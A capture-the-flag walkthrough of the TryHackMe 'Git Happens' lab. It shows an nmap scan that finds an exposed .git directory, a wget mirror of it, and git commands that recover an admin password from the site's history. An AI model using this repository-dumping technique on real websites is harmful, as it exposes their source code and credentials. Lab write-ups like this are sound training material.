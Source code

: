 # TryHackMe Git Happens

![Open Lightbox](../assets/git-happens1.webp){ .glightbox .center width="600" }

```
TryhackMe Machine:- Git Happens
Machine Info:- (Git)
Machine Level:- Easy
```

---
Started of with nmap scan

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 17:50 ISTNmap scan report for 10.10.77.136Host is up (0.16s latency).Not shown: 999 closed tcp ports (conn-refused)PORT   STATE SERVICE VERSION80/tcp open  http    nginx 1.14.0 (Ubuntu)|_http-title: Super Awesome Site!|_http-server-header: nginx/1.14.0 (Ubuntu)| http-git:|   10.10.77.136:80/.git/|     Git repository found!|_    Repository description: Unnamed repository; edit this file 'description' to name the...Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 48.08 seconds
```

We can see /.git/ folder is there lets get this whole /.git/ .

```bash
wget --mirror -I .git http://10.10.77.136/.git/
```

Now cd into 10.10.77.136 and check the using git show.

Then use git status and then use.

```bash
git reset HEAD --hard 
```

Now using the git log command to see oneline commets.

```bash
git log --oneline --graph
```

![Open Lightbox](../assets/git-happens3.webp){ .glightbox .center width="500" }

You will see that HEAD 395e087 nothing significant was here now lets check the index.html and you will see the the password and the flag there use the admin password as flag.

![Open Lightbox](../assets/git-happens3.webp){ .glightbox .center width="500" }

Thank you for reading
